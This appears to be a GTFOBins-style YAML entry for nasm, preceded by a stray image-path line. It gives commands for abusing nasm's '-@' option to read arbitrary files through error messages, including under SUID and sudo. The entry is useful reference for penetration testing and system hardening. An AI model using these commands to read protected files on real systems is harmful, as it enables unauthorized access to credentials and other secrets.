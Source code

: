 ```yaml
---
description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nasm -@ $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nasm -@ $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nasm -@ $LFILE
---
```

